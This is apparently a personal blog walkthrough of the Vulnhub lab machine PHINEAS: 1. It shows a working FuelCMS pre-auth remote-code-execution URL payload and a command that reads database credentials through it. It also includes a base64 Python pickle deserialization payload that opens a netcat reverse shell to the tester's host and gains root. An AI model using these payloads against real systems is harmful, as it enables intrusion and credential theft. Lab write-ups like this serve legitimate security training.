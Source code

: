 ```yaml
---
layout: post
title:  "Vulnhub: PHINEAS: 1"
date:   2021-04-17 12:00:00 +1100
category: hacking
---
```


## PHINEAS: 1
This is [PHINEAS: 1](https://www.vulnhub.com/entry/phineas-1,674/) from Vulnhub. It says:

>a easy/medium web exploiting machine, with internal pivoting and CVE / RCE

Let's go.

## Ports
We've got four open ports:
1. SSH on port 22
2. HTTP on port 80
3. RPCBind on port 111, and 
4. MySQL/MariaDB on 3306

## 3306
If we try to connect to the mysql instance, we get this:

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/phineas]
└─# mysql --host=192.168.1.202 -u root -p
Enter password: 
ERROR 1130 (HY000): Host '192.168.1.192' is not allowed to connect to this MariaDB server
{% endhighlight %}

So we can't connect remotely from our IP; let's move on.

## HTTP/80
All we get at the webroot is the Apache default page for CentOS, which is the OS running on the box and it has a different Apache default to the one for Ubuntu/Debian, so that's mildly interesting. We need to find a hidden directory; this will do it:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/phineas]
└─# feroxbuster -u http://192.168.1.202 -w /usr/share/seclists/Discovery/Web-Content/big.txt -C 403
# stuff
301        7l       20w      239c http://192.168.1.202/structure
# more stuff
{% endhighlight %}

**/structure** is what we want. It contains an installation of FuelCMS which has a pre-auth RCE vulnerability. The installation isn't quite standard and it takes just a little digging to figure out where to get code execution:

``
/structure/index.php/fuel/pages/select/?filter=filter=%27%2bpi%28print%28%24a%3d%27system%27%29%29%2b%24a%28%27COMMAND_HERE%27%29%2b%27
``

where COMMAND_HERE is where the command goes, duh.

I try initially for a reverse shell but can't seem to get one to fire; between this and hacksudo3 you would think I don't know how to get one. I resort to enumerating with **cat** and **ls**, learning we have a user called *anna*. We can read the Fuel database config with this:

``
/structure/index.php/fuel/pages/select/?filter=filter=%27%2bpi%28print%28%24a%3d%27system%27%29%29%2b%24a%28%27cat+/var/www/html/structure/fuel/application/config/database.php%27%29%2b%27
``

view Page Source to see the result, or use Burp Suite; we get this (amongst other things):

>'hostname' => 'localhost',  
'username' => 'anna',  
'password' => 'H993hfkNNid5kk',  
	
And with these credentials we can SSH in.

## Anna
If we go look in anna's files, we can find this:

{% highlight shell %}
[anna@phineas ~]$ cd web
[anna@phineas web]$ ls -lash
total 12K
   0 drwxr-xr-x.  4 root root   80 Apr  1 03:38 .
4.0K drwx------. 19 anna anna 4.0K Apr 16 03:51 ..
4.0K -rwxr-----.  1 root anna  263 Mar 31 05:39 app.py
4.0K -rw-------.  1 root root  591 Mar 31 04:39 app.pyc
   0 drw-------.  2 root root   32 Apr  1 03:11 __pycache__
   0 drw-------.  5 root root   74 Mar 31 04:41 python3-virtualenv
[anna@phineas web]$ cat app.py
#!/usr/bin/python3

import pickle
import base64
from flask import Flask, request

app = Flask(__name__)


@app.route("/heaven", methods=["POST"])
def heaven():
    data = base64.urlsafe_b64decode(request.form['awesome'])
    pickle.loads(data)
    return '', 204
{% endhighlight %}

And that (above) is basically [this](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) with a slight modification; it's a deliberately vulnerable Flask app to demonstrate Python deserialization vulnerabilities. The source code above gives the page we want (*heaven*) and the name of the parameter (*awesome*), plus the method (POST).

Linpeas shows something running on Port 5000, so that's what we want. Set up an SSH port forward:

``
ssh -L 9000:127.0.0.1:5000 anna@192.168.1.202
``

And we can go to *localhost:9000* in the browser to see the page; not that there is anything much to see.

We can use the exact code from the blog I linked above to generate a payload, just replacing the IP with ours; then we can run it:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/phineas]
└─# python3 exploit.py                                          
b'gASVcgAAAAAAAACMBXBvc2l4   etc
{% endhighlight %}

Then we just need to POST it to *localhost:9000/heaven* using the parameter *awesome*. You could use CURL, I used Burp Suite:

{% highlight html %}
POST /heaven HTTP/1.1
Host: localhost:9000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 176

awesome=gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI-JjEgfCBuYyAxOTIuMTY4LjEuMTkyIDEyMzQgPiAvdG1wL2aUhZRSlC4={% endhighlight %}

And in our listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/phineas]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.1.192] from (UNKNOWN) [192.168.1.202] 36010
sh: no job control in this shell
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
sh-4.2# cd /root
cd /root
sh-4.2# ls -lash
ls -lash
total 40K
   0 drw-------.  7 root root  265 Apr  1 05:17 .
   0 dr-xr-xr-x. 17 root root  224 Nov 23 12:26 ..
4.0K -rw-------.  1 root root 1.9K Nov 23 12:27 anaconda-ks.cfg
4.0K -rw-------.  1 root root  107 Apr  1 13:56 .bash_history
4.0K -rw-r--r--.  1 root root   18 Dec 28  2013 .bash_logout
4.0K -rw-r--r--.  1 root root  176 Dec 28  2013 .bash_profile
4.0K -rw-r--r--.  1 root root  176 Dec 28  2013 .bashrc
   0 drwx------.  5 root root   42 Mar 31 04:01 .cache
   0 drwx------.  4 root root   30 Mar 31 03:52 .config
4.0K -rw-r--r--.  1 root root  100 Dec 28  2013 .cshrc
   0 drwx------.  3 root root   25 Nov 23 12:28 .dbus
   0 drwxr-xr-x.  4 root root   31 Apr  1 05:17 .gem
4.0K -rw-------.  1 root root 2.0K Nov 23 12:29 initial-setup-ks.cfg
   0 drwxr-----.  3 root root   19 Mar 31 03:58 .pki
4.0K -rw-------.  1 root root   32 Mar 31 05:22 root.txt
4.0K -rwx--x--x.  1 root root   43 Mar 31 05:26 run_flask.sh
4.0K -rw-r--r--.  1 root root  129 Dec 28  2013 .tcshrc
sh-4.2# cat root.txt && date && hostname && id
cat root.txt && date && hostname && id
YW5uYW1hcmlhbmljb3NhbnRpdml2ZSE
Fri Apr 16 04:46:49 EDT 2021
phineas
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
sh-4.2# 
{% endhighlight %}

Kerchow.
